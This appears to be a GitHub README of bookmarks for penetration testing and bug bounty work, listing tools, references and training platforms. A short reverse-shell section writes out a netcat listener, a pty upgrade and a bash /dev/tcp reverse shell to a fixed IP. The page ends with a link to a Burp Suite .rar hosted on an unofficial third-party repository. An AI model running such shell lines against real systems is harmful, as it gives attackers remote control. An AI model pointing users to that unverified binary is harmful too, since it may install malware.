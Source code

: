 <div align="center">
  <img src="https://i.imgur.com/sHcFK7G.jpg">
  <h1 align="center">
</div>
 
## Main links

 - [Temp email](https://linux0.net/)
 - [Cyberchief](https://gchq.github.io/CyberChef/)
 - [JWT.io](https://jwt.io/)
 - [Revshellgenerator](https://tex2e.github.io/reverse-shell-generator/index.html)
 - [SecLists](https://github.com/danielmiessler/SecLists)
 - [bbfuzzing](https://github.com/reewardius/bbFuzzing.txt)
 - [PayloadsAllTheThings](https://github.com/Fananad/PayloadsAllTheThings)
 - [Chat GPT](https://chat.openai.com/)
 - [PEASS-ng](https://github.com/Fananad/PEASS-ng)
 - [Bookmarks](https://github.com/Fananad/offensive-bookmarks/tree/main)
  
  
## Resourses for reading
  
 - [OWASP WSTG ENG](https://github.com/OWASP/wstg/tree/master/document)
 - [OWASP WSTG RUS](https://github.com/andrettv/WSTG/tree/master/WSTG-ru)
 - [OWASP ASVS RUS](https://github.com/andrettv/ASVS/tree/master/4.0/ru)
 - [HackTricks](https://book.hacktricks.xyz/welcome/readme)
 - [Exploit DB](https://www.exploit-db.com/)
  
# Academies
  
  - [PortSwigger](https://portswigger.net/)
  - [Academy](https://academy.hackthebox.com/dashboard/)
  - [TryHackme](https://tryhackme.com/)
  - [HackTheBox](https://www.hackthebox.com/)
  - [Hacker101](https://www.hacker101.com/)
  - [Codeby Games](https://codeby.games/categories)

# Revers shell 

  - [revshell](https://www.revshells.com/)
  - [ngrok](https://ngrok.com/)

  - python -c 'import pty;pty.spawn("/bin/bash")'
  - nc -lvnp 9999
  - sh -i >& /dev/tcp/10.8.34.51/9999 0>&1


# Search

  - [whois](https://whois.domaintools.com/)
  - [archive](https://archive.org/)
  - [archive ip,dns](viewdns.info)
  - [ip на одном хосте](https://suip.biz/ru/)

# APP
  - [cmd injection commix](https://github.com/commixproject/commix)
  - [ssti tplmap](https://github.com/epinna/tplmap)
  - [ngrok](https://ngrok.com/download)
  



## Download Burp

[CLICK THIS LINK](https://github.com/Maverick-25/Burp-Suite/releases/download/tool/Burp-Suite.rar)

